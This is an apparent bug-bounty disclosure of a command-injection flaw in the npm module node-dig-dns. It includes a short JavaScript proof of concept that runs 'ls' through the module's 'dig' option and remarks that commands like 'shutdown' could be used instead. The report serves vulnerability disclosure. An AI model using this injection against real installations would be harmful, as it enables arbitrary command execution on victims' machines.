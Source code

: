 # Overview

I would like to report an `RCE` issue in the `node-dig-dns` module. It allows the execution of arbitrary commands remotely inside the victim's PC.

The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/StephanGeorg/node-dig-dns/blob/master/src/index.js#L6).

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var dig = require("node-dig-dns");

dig([], { dig: "ls" })
  .then((result) => {
    console.log(result);
  })
  .catch((err) => {
    console.log("Error:", err);
  });
```

2. Execute the following commands in another terminal:

```bash
npm i node-dig-dns # Install affected module
node poc.js #  Run the PoC
```

3. The output will show you the result of the `ls` command

Please, note the vulnerability occurs only with a `mono` command, making the commands to be executed more difficult and a little impactful. Anyway, Linux is a complex ecosystem, where commands like `shutdown` can be used in any way to make the PoC work and a bit better.
